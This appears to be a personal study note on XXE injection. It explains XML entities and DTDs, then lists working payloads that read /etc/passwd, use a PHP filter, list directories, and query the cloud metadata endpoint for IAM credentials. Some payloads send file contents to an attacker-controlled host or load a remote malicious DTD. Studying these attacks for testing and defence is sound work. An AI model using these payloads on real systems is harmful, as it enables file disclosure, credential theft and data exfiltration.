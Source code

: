 ### XXE vulnerability 

xml- “extensible markup language”. design for storing and transporting data., it has no pre-defined tags, it lets you define own tags.

 ### XML entities ?

XML entities are a way of representing an item of data within an XML document.It is built-in entities in xml like <; and >; user for less that and grater then in xml
   example: <Product Id> 
    

### Type of entities:

->Internal - entities define within local DTD. the main purpose of the internal entity is to transfer same content again and again like the name of org. lwe can define any where to call the txt and insert the value                ex: <!ENTITY foo “bar”> <product>&foo;</product>. make sure entity must be close.

-> external - declared outside of local DTD ex: <!ENTITY foo SYSTEM “file:///etc/passwd>. but we use two entity one is internal to call data and other is external entity to fatch data from the system.

-> parameter - declared into the parameter based entities <! ENTITY % name “entity_value”>


### Document type definition(DTD):

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. 

- it is used to declared the structure of xml. Type of data value it contain.
- can also defining outside of the XML using <!DOCTYPE>
- DTD is declared with in the optional DOCTYPE element  at the starting of the XML doc.

### XML injection:

![xxe-injection.svg](https://prod-files-secure.s3.us-west-2.amazonaws.com/f2f7edc7-a7f6-434a-9e44-8b75ab7b3bac/a6751eec-683f-435b-b991-fff952479509/xxe-injection.svg)

### Impact:

sensitive Data Exposure, Access to infrastructure, Remote code execution, Server Side Request Forgery.

**why this vulnerability arise;**

Some applications use the XML format to transmit data between the browser and the server.

**when user input is inserted into a server-side XML document or SOAP message in an unsafe way. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.** 

**type of XXE attacks?**

- **Exploiting XXE to retrieve filed**: where an external entity is defined containing the contents of a  file, and returned in the application's response
- **SSRF attack through XXE:** where an external entity is defined based on a URL to a back-end system.
- **exploiting blind xxe exfiltrate Data out-of-band:** where sensitive data is transmitted from the application server to a system that the attacker controls.
- **Retrieve data via error messages:** where the attacker can trigger a parsing error message containing sensitive data.
  
### Main attacks of XXE
# Main attack of XML

first check for new Entity 

  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY to replace "3"> ]>
  <stockCheck>
  <productId>&toreplace;</productId>
  <storeId>1</storeId>
 </stockCheck>

##### read file:

  <!--?xml version="1.0" ?-->
  <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
  <data>&example;</data>

##### this case use to extrect a file if server uses PHP

  <!--?xml version="1.0" ?-->
  <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>  
  <data>&example;</data>

#####  third case notice we are declaring the `Element stockCheck` as ANY

  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [
  <!ELEMENT stockCheck ANY>
  <!ENTITY file SYSTEM "file:///etc/passwd">
  ]>
<stockCheck>
<productId>&file;</productId>
<storeId>1</storeId>
</stockCheck3>exploit to retrieve the /etc/passwd file::

##### Directory listing (for java based application)

**list the contents of a directory** via XXE with a payload

  <!-- Root / -->
  <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

  <!-- /etc/ -->
  <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>

##### SSRF

XXE is to abuse a ssrf inside  a cloud:

  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
  <stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

##### Blind SSRF

  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY % xxe SYSTEM "[http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net](http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net/)"> %xxe; ]>
  <stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>

 ##### "Blind" SSRF - Exfiltrate data out-of-band
    
    Exfiltrate the content of the the /etc/hostname file:
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM '[http://web-attacker.com/?x=%file;'](http://web-attacker.com/?x=%25file;%27)>">
    %eval;
    %exfiltrate;
    
#####  To upload malicious.dtd

   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
   <stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>

##### commaon exploit

- <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
- <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com">]>
- <! DOCTYPE root-element [element-declarations]>

### refrence:

 https://www.w3resource.com/xml/internal-entities.php
 
 https://d0znpp.medium.com/a4-xml-external-entities-xxe-%EF%B8%8F-top-10-owasp-2017-b9c293c27b0f
 
 https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
